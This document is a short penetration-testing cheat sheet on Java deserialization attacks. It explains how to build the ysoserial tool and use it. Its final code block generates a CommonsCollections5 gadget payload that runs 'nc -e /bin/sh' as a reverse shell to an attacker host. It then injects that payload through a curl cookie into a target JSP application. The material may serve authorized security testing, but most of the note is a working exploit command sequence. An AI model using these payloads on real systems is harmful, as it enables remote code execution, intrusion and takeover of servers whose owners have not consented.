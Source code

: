 ## Deserialization

Let the application deserialize your own injected objects that have a method that is called by the application or that calls a method in constructor/deconstructor.

### Build ysoserial
####Install JDK
```
Download http://www.oracle.com/technetwork/java/javase/downloads/index.html
unzip
mv jdk1.8.0_102/ /opt/
export JAVA_HOME="/opt/jdk1.8.0_102"
export JAVA_BIN="/opt/jdk1.8.0_102/bin"

update-alternatives --install /usr/bin/java java /opt/jdk1.8.0_102/bin/java 1
update-alternatives --set java /opt/jdk1.8.0_102/bin/java
```

#### Builing jars from src /pom.xml
```
apt-get install maven
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Build ysoserial - Java deserialisation
```
git clone https://github.com/frohoff/ysoserial
mvn install -DskipTests=true -Dmaven.javadoc.skip=true -B -V
```

#### Use ysoserial 0.0.5
```
java -jar ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n'

proxychains curl -b 'userInfo = "'$(java -jar ../../web/ysoserial-0.0.5-SNAPSHOT-all.jar CommonsCollections5 '/bin/nc -e /bin/sh 172.16.0.2 10101' | base64 | tr -d '\n')'"'  http://192.168.1.2:8080/index.jsp
```

tags: #object_injection #deserialization #ysoserial 
